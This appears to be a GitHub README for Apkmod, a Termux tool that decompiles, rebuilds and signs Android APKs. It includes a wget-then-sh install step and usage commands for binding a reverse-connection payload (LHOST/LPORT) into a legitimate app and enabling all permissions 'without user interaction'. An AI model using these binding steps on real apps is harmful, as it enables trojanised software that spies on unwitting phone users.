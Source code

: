 # Apkmod v2.2
### Author : WaSim Akram  @EvilDevil

## _Steps For Installation_
1. First goto home directory `cd $HOME`
2. Get the setup script `wget https://raw.githubusercontent.com/evildevill/Apkmod/master/setup.sh`
3. Execute the script `sh setup.sh`
4. Now you can execute command `apkmod`

## Usage :
1. For decompiling `apkmod -d /path/to/inapp.apk -o /path/to/outdirectory`. It will decompile __inapp.apk__ into __outdirectory__ folder.
2. For recompiling `apkmod -r /path/to/indirectory -o /path/to/outapp.apk`. It will recompile __indirectory__ ( where decompiled files are exists ) into __outapp.apk__.
3. For signing `apkmod -s /path/to/unsignedapp.apk -o /path/to/signedapp.apk`. It will sign __unsignedapp.apk__ and saves output ( signed app ) to __signedapp.apk__.
4. For binding `apkmod -b /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444`. It will bind payload with __originalApp.apk__ and saves final binded app to __binded.apk__.
5. Use `-V` to enable verbose output
6. If only editing Java (smali) then this is the recommended action for faster decompile & rebuild `--no-res`
7. If you are only editing the resources. This is the recommended action for faster disassemble & assemble `--no-smali`
8. use `--frame-path` to specify framework directory like `--frame-path=/path/to/dir` 
9. Use `--enable-perm` to enable all android permissions in binded or non binded payloads without user interaction. For example :- `apkmod --enable-perm=/path/to/binded.apk -o mybinded.apk`
10. `apkmod --to-java=/path/to/in.apk -o outfolder` will decompile dex to java. Input can be __[.apk,.dex,.zip]__
### Size Comparision (Termux)
Size  | Apkmod  | Third party tools
--- | --- | ---
after installation | Around 100 MB | Around 700-900 MB

#### Why Apkmod is extremely small ?
Because it has Alpine instead of Ubuntu, kali, parrot or other glibc based distros.

#### You can join me on YouTube also 
https://youtube.com/thelinuxchoice
